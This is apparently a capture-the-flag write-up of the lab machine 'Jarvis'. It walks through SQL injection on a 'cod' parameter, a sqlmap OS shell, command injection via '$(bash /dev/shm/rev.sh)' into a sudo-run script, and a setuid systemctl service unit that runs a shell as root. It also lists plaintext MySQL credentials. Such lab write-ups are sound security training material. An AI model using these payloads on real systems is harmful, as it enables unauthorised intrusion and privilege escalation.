

# jarvis : `10.10.10.143`

**Table Of Contents:**

<!-- TOC -->

- [jarvis : `10.10.10.143`](#jarvis--101010143)
  - [Enumerating database](#enumerating-database)
  - [Credentials](#credentials)
  - [Synopsis](#synopsis)
  - [Enumeration](#enumeration)
    - [Opened Ports](#opened-ports)
  - [FootHold](#foothold)
  - [Lateral Movement](#lateral-movement)
  - [Privilege Escalation](#privilege-escalation)

<!-- /TOC -->

## Enumerating database

- Extract all database names : `SELECT group_concat(0x0a,schema_name FROM information_schema.schemata`

---

## Credentials


| Service | Username | Password |
| :-------: | :--------: | :--------: |
|  mysql  | DBadmin | imissyou |

---

## Synopsis

Got sql injection on cod parameter on room.php page. Uploaded a reverse shell using outfile method and got `www-data`. From there, noticed www-data can run simpler.py file as user `pepper`.Bypassed all the forbidden characters to gain rce and got shell as pepper. systemctl has setuid set and pepper can execute that binary. With the help of gtfobins, got root. 👍

---

## Enumeration

### Opened Ports

- [ ] 22 (SSH)
- [ ] 80 (HTTP)

---

## FootHold

- On the homepage, `supersecurehotel.htb` discovered.
- The parameter `cod` on the room.php page was vulnerable to error based sql injection.
- 
- Got shell from sqlmap using --os-shell feature which is quite a 🌶 feature. I like it personally.
- User `www-data` can run a simpler.py file with as pepper. Finding way to escalate the privilege from www-data to pepper.

---

## Lateral Movement

- Noticed that `systemctl` has setuid set. Will give a try once got hold of pepper user.

  ```bash
  User www-data may run the following commands on jarvis:   
  ```
- Using `$(bash /dev/shm/rev.sh)` to bypass all those forbidden characters.

  ```bash
  www-data@jarvis:/var/www/Admin-Utilities$ sudo -u pepper ./simpler.py -p
  ***********************************************
       _                 _   
   ___(_)_ __ ___  _ __ | | ___ _ __ _ __  _   _ 
  / __| | '_ ` _ \| '_ \| |/ _ \ '__| '_ \| | | |
  \__ \ | | | | | | |_) | |  __/ |_ | |_) | |_| |
  |___/_|_| |_| |_| .__/|_|\___|_(_)| .__/ \__, |
                  |_|               |_|    |___/ 
                                  @ironhackers.es

  ***********************************************

  Enter an IP: $(bash /dev/shm/rev.sh)
  ```
- Got user `pepper` 💥

---

## Privilege Escalation

- `systemctl` has setuid set.
- With the help of [gtfobins](https://gtfobins.github.io/gtfobins/systemctl/#suid) , got access to root.

```bash
cd /tmp
TF=`mktemp`.service
echo '[Service] 
Type=oneshot 
ExecStart=/bin/bash /dev/shm/rev 
[Install] 
WantedBy=multi-user.target' > $TF
/bin/systemctl link $TF
/bin/systemctl enable --now $TF
```
